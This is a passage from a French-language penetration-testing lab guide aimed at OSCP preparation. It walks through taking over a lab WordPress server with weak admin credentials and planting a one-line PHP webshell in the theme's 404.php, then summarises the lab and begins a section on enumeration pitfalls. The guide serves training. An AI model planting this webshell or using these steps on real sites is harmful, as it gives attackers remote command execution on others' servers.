 **Résultat attendu** : Accès à des informations confidentielles et confirmation de la compromission du compte.

#### Exploitation du serveur WordPress

```bash
# Connexion à l'interface d'administration WordPress
firefox http://192.168.1.20/wp-admin

# Utiliser les identifiants : admin / wordpress123
```

Une fois connecté à l'interface d'administration :

1. Naviguer vers Apparence > Éditeur de thème
2. Sélectionner le thème actif
3. Éditer le fichier 404.php et remplacer son contenu par une webshell PHP simple :

```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

4. Mettre à jour le fichier
5. Accéder à la webshell via le navigateur :

```
http://192.168.1.20/wp-content/themes/twentytwentyone/404.php?cmd=id
```

**Résultat attendu** : Exécution de commandes sur le serveur web, confirmant la compromission.

### Conclusion du lab

Dans ce mini-lab, vous avez :

1. Énuméré un contrôleur de domaine Windows Server 2019
2. Identifié et exploité un compte vulnérable à l'AS-REP Roasting
3. Énuméré un serveur WordPress obsolète
4. Identifié des plugins vulnérables et un compte administrateur avec mot de passe faible
5. Obtenu un accès aux deux systèmes

Ces techniques d'énumération sont essentielles pour les tests d'intrusion et les examens comme l'OSCP, où l'identification méthodique des vulnérabilités est cruciale pour le succès.
## Pièges classiques

L'énumération, bien que méthodique, comporte de nombreux pièges qui peuvent ralentir votre progression ou vous faire manquer des informations critiques. Voici les erreurs les plus courantes et comment les éviter.

### 1. Scan incomplet des ports

**Piège** : Se contenter d'un scan des ports par défaut (top 1000) et manquer des services critiques sur des ports non standards.
